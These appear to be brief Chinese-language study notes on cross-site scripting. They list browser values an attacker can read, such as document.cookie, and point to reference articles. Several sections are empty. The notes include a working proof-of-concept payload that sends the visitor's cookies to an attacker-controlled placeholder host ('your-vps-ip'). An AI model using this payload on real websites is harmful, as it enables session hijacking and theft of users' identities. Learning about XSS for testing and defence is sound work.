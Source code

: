 # XSS

## 基本思路

xss的目的在于前端网页中注入恶意js代码，使得攻击者可以利用访问该网页用户的身份进行恶意操作

可以利用的敏感信息

```
document.cookie
document.location.href
top.location.href
window.opener.location.href
...
```

最简单的poc
```js
<script>window.open("http://your-vps-ip/"+document.cookie)</script>
```
window.open 可以替换为 window.location.href

## iframe


## 图片
### PNG

参考链接 https://xz.aliyun.com/t/7530

## CSP相关

## CheatSheet

Cross-site scripting (XSS) cheat sheet：

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet